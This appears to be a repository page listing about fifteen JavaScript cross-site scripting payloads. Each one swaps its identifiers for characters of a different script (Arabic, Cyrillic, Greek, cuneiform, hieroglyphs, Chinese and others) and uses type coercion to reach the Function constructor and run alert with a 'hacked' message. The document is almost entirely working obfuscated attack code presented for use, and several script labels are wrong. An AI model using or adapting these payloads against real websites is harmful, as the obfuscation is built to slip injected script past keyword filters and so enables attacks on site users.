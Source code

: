 XSS Payload Written In Arabic
```
ا='',ب=!ا+ا,ت=!ب+ا,ث=ا+{},ج=ب[ا++],ح=ب[خ=ا],
د=++خ+ا,ذ=ث[خ+د],ب[ذ+=ث[ا]+(ب.ت+ث)[ا]+ت[د]+ج+ح+ب[خ]+ذ+ج+ث[ا]+ح][ذ](ت[ا]+ت[خ]+ب[د]+ح+ج+"(1)")()
```
XSS Payload Written in Russian 🇷🇺
```
а='',б=!а+а,в=!б+а,г=а+{},д=б[а++],е=б[ж=а],з=++ж+а,и=г[ж+з],б[и+=г[а]+(б.в+г)[а]+в[з]+д+е+б[ж]+и+д+г[а]+е][и](в[а]+в[ж]+б[з]+е+д+"('взломано')")()
```
XSS Payload Written In Ancient Greek Language

```
α='',β=!α+α,γ=!β+α,δ=α+{},ε=β[α++],ζ=β[ι=α],η=++ι+α,θ=δ[ι+η],β[θ+=δ[α]+(β.γ+δ)[α]+γ[η]+ε+ζ+β[ι]+θ+ε+δ[α]+ζ][θ](γ[α]+γ[ι]+β[η]+ζ+ε+"('Ĥαcεκd βγ γαssιη')")()
```
XSS Payload Written in Ancient Indus Language 📜
```
𒀱='',𒁍=!𒀱+𒀱,𒂖=!𒁍+𒀱,𒃵=𒀱+{},𒄿=𒁍[𒀱++],𒅗=𒁍[𒀲=𒀱],𒆜=++𒀲+𒀱,𒇻=𒃵[𒀲+𒆜],𒁍[𒇻+=𒃵[𒀱]+(𒁍.𒂖+𒃵)[𒀱]+𒂖[𒆜]+𒄿+𒅗+𒁍[𒀲]+𒇻+𒄿+𒃵[𒀱]+𒅗][𒇻](𒂖[𒀱]+𒂖[𒀲]+𒁍[𒆜]+𒅗+𒄿+"('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')")()
```

XSS Payload Written in Inuktitut language 📜
```
ᐊ='',ᐃ=!ᐊ+ᐊ,ᐅ=!ᐃ+ᐊ,ᐱ=ᐊ+{},ᑎ=ᐃ[ᐊ++],ᓇ=ᐃ[ᓕ=ᐊ],ᓯ=++ᓕ+ᐊ,ᓂ=ᐱ[ᓕ+ᓯ],ᐃ[ᓂ+=ᐱ[ᐊ]+(ᐃ.ᐅ+ᐱ)[ᐊ]+ᐅ[ᓯ]+ᑎ+ᓇ+ᐃ[ᓕ]+ᓂ+ᑎ+ᐱ[ᐊ]+ᓇ][ᓂ](ᐅ[ᐊ]+ᐅ[ᓕ]+ᐃ[ᓯ]+ᓇ+ᑎ+"('ᐊᐃᓐᓇᓂᐅᑦ ᐱᔭᓯᓕᖅ')")()
```
XSS Payload Written In Linear B language 📜
```
𐀀='',𐀁=!𐀀+𐀀,𐀂=!𐀁+𐀀,𐀃=𐀀+{},𐀄=𐀁[𐀀++],𐀅=𐀁[𐀆=𐀀],𐀇=++𐀆+𐀀,𐀈=𐀃[𐀆+𐀇],𐀁[𐀈+=𐀃[𐀀]+(𐀁.𐀂+𐀃)[𐀀]+𐀂[𐀇]+𐀄+𐀅+𐀁[𐀆]+𐀈+𐀄+𐀃[𐀀]+𐀅][𐀈](𐀂[𐀀]+𐀂[𐀆]+𐀁[𐀇]+𐀅+𐀄+"('𐀀𐀁𐀂𐀃𐀄 𐀅𐀆𐀇𐀈')")()
```
XSS Payload Written In Hieroglyphics 🇪🇬

```
𓀀='',𓁹=!𓀀+𓀀,𓆣=!𓁹+𓀀,𓉐=𓀀+{},𓂀=𓁹[𓀀++],𓏏=𓁹[𓀂=𓀀],𓎛=++𓀂+𓀀,𓅓=𓉐[𓀂+𓎛],𓁹[𓅓+=𓉐[𓀀]+(𓁹.𓆣+𓉐)[𓀀]+𓆣[𓎛]+𓂀+𓏏+𓁹[𓀂]+𓅓+𓂀+𓉐[𓀀]+𓏏][𓅓](𓆣[𓀀]+𓆣[𓀂]+𓁹[𓎛]+𓏏+𓂀+"('𓀀𓁹𓆣𓉐𓂀𓏏𓎛𓅓')")()
```

XSS Payload Written In Japanese 🇯🇵
```
あ='',い=!あ+あ,う=!い+あ,え=あ+{},お=い[あ++],か=い[き=あ],く=++き+あ,け=え[き+く],い[け+=え[あ]+(い.う+え)[あ]+う[く]+お+か+い[き]+け+お+え[あ]+か][け](う[あ]+う[き]+い[く]+か+お+"('ハッキングされました')")()
```
XSS Payload Written In Chinese 🇨🇳 
```
甲='',乙=!甲+甲,丙=!乙+甲,丁=甲+{},戊=乙[甲++],己=乙[庚=甲],辛=++庚+甲,壬=丁[庚+辛],乙[壬+=丁[甲]+(乙.丙+丁)[甲]+丙[辛]+戊+己+乙[庚]+壬+戊+丁[甲]+己][壬](丙[甲]+丙[庚]+乙[辛]+己+戊+"('被攻擊了')")()
```

XSS Payload Written In Ancient Linear B language 📜
```
𐀀='',𐀁=!𐀀+𐀀,𐀂=!𐀁+𐀀,𐀃=𐀀+{},𐀄=𐀁[𐀀++],𐀅=𐀁[𐀆=𐀀],𐀇=++𐀆+𐀀,𐀈=𐀃[𐀆+𐀇],𐀁[𐀈+=𐀃[𐀀]+(𐀁.𐀂+𐀃)[𐀀]+𐀂[𐀇]+𐀄+𐀅+𐀁[𐀆]+𐀈+𐀄+𐀃[𐀀]+𐀅][𐀈](𐀂[𐀀]+𐀂[𐀆]+𐀁[𐀇]+𐀅+𐀄+"('𐀀𐀁𐀂𐀃𐀄 𐀅𐀆𐀇𐀈')")()
```

XSS Payload Written In Glagolitic 📜
```
Ⰰ='',Ⰱ=!Ⰰ+Ⰰ,Ⰲ=!Ⰱ+Ⰰ,Ⰳ=Ⰰ+{},Ⰴ=Ⰱ[Ⰰ++],Ⰵ=Ⰱ[Ⰶ=Ⰰ],Ⰷ=++Ⰶ+Ⰰ,Ⰸ=Ⰳ[Ⰶ+Ⰷ],Ⰱ[Ⰸ+=Ⰳ[Ⰰ]+(Ⰱ.Ⰲ+Ⰳ)[Ⰰ]+Ⰲ[Ⰷ]+Ⰴ+Ⰵ+Ⰱ[Ⰶ]+Ⰸ+Ⰴ+Ⰳ[Ⰰ]+Ⰵ][Ⰸ](Ⰲ[Ⰰ]+Ⰲ[Ⰶ]+Ⰱ[Ⰷ]+Ⰵ+Ⰴ+"('ⰀⰁⰂⰃⰄⰅⰆⰇⰈ')")()
```
XSS Payload Written In Ancient YI language 📜
```
ꆈ='',ꌠ=!ꆈ+ꆈ,ꁱ=!ꌠ+ꆈ,ꁯ=ꆈ+{},ꉬ=ꌠ[ꆈ++],ꃅ=ꌠ[ꋍ=ꆈ],ꇁ=++ꋍ+ꆈ,ꊰ=ꁯ[ꋍ+ꇁ],ꌠ[ꊰ+=ꁯ[ꆈ]+(ꌠ.ꁱ+ꁯ)[ꆈ]+ꁱ[ꇁ]+ꉬ+ꃅ+ꌠ[ꋍ]+ꊰ+ꉬ+ꁯ[ꆈ]+ꃅ][ꊰ](ꁱ[ꆈ]+ꁱ[ꋍ]+ꌠ[ꇁ]+ꃅ+ꉬ+"('ꆈꌠꁱꁯꉬꃅꋍꇁꊰꌠꁱꉬꇁꊰꆈꋍꁯꃅꆈꌠꁱꁯꉬꃅꋍꇁꊰ')")()
```
Turning XSS Into Art 🖤
```
𝒜='',ℬ=!𝒜+𝒜,𝒞=!ℬ+𝒜,𝒟=𝒜+{},ℰ=ℬ[𝒜++],ℱ=ℬ[𝒢=𝒜],ℋ=++𝒢+𝒜,ℐ=𝒟[𝒢+ℋ],ℬ[ℐ+=𝒟[𝒜]+(ℬ.𝒞+𝒟)[𝒜]+𝒞[ℋ]+ℰ+ℱ+ℬ[𝒢]+ℐ+ℰ+𝒟[𝒜]+ℱ][ℐ](𝒞[𝒜]+𝒞[𝒢]+ℬ[ℋ]+ℱ+ℰ+"('𝓱𝓪𝓬𝓴𝓮𝓭 𝓫𝔂 𝔂𝓪𝓼𝓼𝓲𝓷')")()
```
XSS Payload Made Using Zalgo text 🖤
```
Ａ='',Ｂ=!Ａ+Ａ,Ｃ=!Ｂ+Ａ,Ｄ=Ａ+{},Ｅ=Ｂ[Ａ++],Ｆ=Ｂ[Ｇ=Ａ],Ｈ=++Ｇ+Ａ,Ｉ=Ｄ[Ｇ+Ｈ],
Ｂ[Ｉ+=Ｄ[Ａ]+(Ｂ.Ｃ+Ｄ)[Ａ]+Ｃ[Ｈ]+Ｅ+Ｆ+Ｂ[Ｇ]+Ｉ+Ｅ+Ｄ[Ａ]+Ｆ][Ｉ](Ｃ[Ａ]+Ｃ[Ｇ]+Ｂ[Ｈ]+Ｆ+Ｅ+"('H̶̦͇͓͔͙͔̜͕̬̗̦̜̹͎̝̟̥̊̆͊̈̿͆͐a̵̝̤̓̆̅̒̄͂͌̃͌̕͝͝č̷̡̡̡̛̳̱̠̫͓͕͕͔́͒͑̉͑̓̓͘͘͜͜͝k̷̢͈͖̫̐̓̊̊͊͑̒̊̄̎̽̕͘͘͝ę̴͔̻̟͎̟͖̪̐̆̉̓̑̐̇̋̇̍́̉͠ͅd̴͚̱̣͓̠̹̻̺͈̮̣̏̀̈́̒͆͐͋́ ̶̦̥̰̻̬̩̦̒͋͂̀͠B̴̛̤̹̤͍̹̺̖̬̺̝̈́͂̾͌̈́̓̋̍̃̀́̔͘͜͜͜͠ͅỳ̷̬͖͉͕͙̗͉̜̼̣̤̳̣̺͖͇̈́̾̈̀͂̑͋͌̀͠͠ ̵͈̏̑͛̈́̆̇̓̔̂̔̈́͘Y̷̧̼͉͙͙͙͙̳̳̰̮̯̝̔̀̋͊͋̒̐͒́̿̔̈́̈́̊̕͘ä̶̛͖͉̗̠̩̰̻͕̳͍͎́̅̇͗͑̇̊̀͘͝ͅś̷͕̥̹̬̟̑̑͌̀̅̍̈́͋̓̍͘s̷̱̔̐͗̈́̍̏͝͝i̶̺̠̝͉̥̖̙̰͌͌̈͂̽͒̅͜͜͝ͅṅ̴̛̦̙͖̲̫̹͊͑͌̎̒̉̆')")()
```
